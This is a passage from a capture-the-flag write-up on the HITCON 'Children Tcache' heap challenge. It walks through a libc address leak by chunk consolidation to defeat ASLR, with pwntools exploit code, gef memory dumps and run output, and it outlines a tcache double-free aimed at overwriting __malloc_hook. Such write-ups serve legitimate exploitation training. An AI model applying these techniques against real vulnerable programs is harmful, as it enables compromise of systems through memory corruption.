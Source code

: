 Now, we will have to `free(2)` such that the `chunk_3` the target chunk having the `prev_size` value `0x580` will consolidate with the chunk `0x0000555555757770`, so when we allocate a chunk of the size being the `0x508` this will result in the `fd` and the `bk` being populated with the `main_arena`'s address for the chunk `0x0000555555757770`, so initially the `chunk_0` i.e. `0x0000555555757770`  was not cleared but consolidated but since the global pointer contains this chunk's pointer on the index `0`, doing `show(0)`, we will have the LIBC leak, with the help of it we can defeat the ASLR.

```py
# heap_list[1] => chunk_4 (0x511)
# this will use the unsorted bin for allocation, and writes
# a libc address into chunk_1 fd/bk fi
new_heap(0x508, 'e' * 0x507)

# viwing chunk_1 will leak libc address
show_heap(0)

libc_addr = p.recvuntil('\n$$')[:-3]
libc_base = u64(libc_addr + b'\x00' * (8 - len(libc_addr))) - 0x3ebca0
log.info('LIBC Base: {}'.format(hex(libc_base)))
```

Now, doing so:-

```asm
gef➤  x/10xg  0x0000555555554000 + 0x202060
0x555555756060:	0x0000555555757770	0x0000555555757260
0x555555756070:	0x0000000000000000	0x0000555555757de0
0x555555756080:	0x0000000000000000	0x0000000000000000
0x555555756090:	0x0000000000000000	0x0000000000000000
0x5555557560a0:	0x0000000000000000	0x0000000000000000
gef➤  x/8xg 0x0000555555757770 - 0x10
0x555555757760:	0x0065656565656565	0x0000000000000671  <--- the 0x671 = (0x600 + 0x71) is consolidated and for which after the allocation the fd & bk is populated
0x555555757770:	0x00007ffff7dcdca0	0x00007ffff7dcdca0
```

Having the leak:-

```asm
vagrant@ubuntu-bionic:~/sharedFolder/training/hitcon$ python3 children_tcache.py
[+] Starting local process './children_tcache': pid 2842
[*] LIBC Base: 0x7ffff79e2000
[*] Switching to interactive mode
$$$$$$$$$$$$$$$$$$$$$$$$$
🍊    Children Tcache    🍊
$$$$$$$$$$$$$$$$$$$$$$$$$$$
$   1. New heap           $
$   2. Show heap          $
$   3. Delete heap        $ 
$   4. Exit               $ 
$$$$$$$$$$$$$$$$$$$$$$$$$$$
Your choice: $ 
```

Now, we have the LIBC leak, defeating the ASLR, we have to now force the `malloc` to return a pointer which we can overwrite like `__malloc_hook` or `__free_hook` by taking advantage of the heap layout. To do so, initally we will take the overlapping of these chunks to get the duplicate entry, to replicate it, we will allocate a chunk of size `0x68` this will return the chunk as same as of the `chunk_1`. So, when we do the `free(1)` and `free(5)`, it'll result in the same chunk being deleted, since two chunks are `free`'d the `tcache` will have the duplicate entry for the chunks, making a loop, due to which we will be able to overwrite the `fd` & `bk` of the `free`'d chunk and let it return the chunk.

